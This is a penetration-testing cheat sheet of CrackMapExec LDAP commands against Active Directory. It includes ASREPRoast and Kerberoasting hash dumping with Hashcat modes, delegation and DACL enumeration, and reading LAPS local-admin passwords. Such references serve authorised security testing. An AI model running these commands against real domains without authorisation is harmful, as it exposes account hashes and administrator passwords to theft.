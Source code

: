 # cme

% cme-ldap, crackmapexec, windows, Active directory
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 


## ldap - LDAP connection
edit /etc/hosts
```bash
cme ldap <ip> -u <user> -p <password> -d <domain> --no-smb
```

## ldap - LDAP Machine Account Quota
```bash
cme ldap <ip> -u <user> -p <password> -d <domain> --no-smb -M MAQ
```

## ldap - ASREPRoast enum without authentication
User can be a wordlist too (user.txt)
Hashcat format  -m 18200 
```bash
cme ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - ASREPRoast enum with authentication
Hashcat format  -m 18200 
```bash
cme ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - Kerberoasting
Hashcat format  -m 13100
```bash
cme ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_name>
```

## ldap - Unconstrained delegation
List of all computers et users with the flag TRUSTED_FOR_DELEGATION
```bash
cme ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```


## ldap - read DACLs of an account
```bash
cme ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<user> ACTION=read
```


## ldap - read DACLs of an principal has over a target
```bash
cme ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<target_user> -o PRINCIPAL=<user> ACTION=read
```

## ldap - read LAPS
```bash
cme ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --module laps
```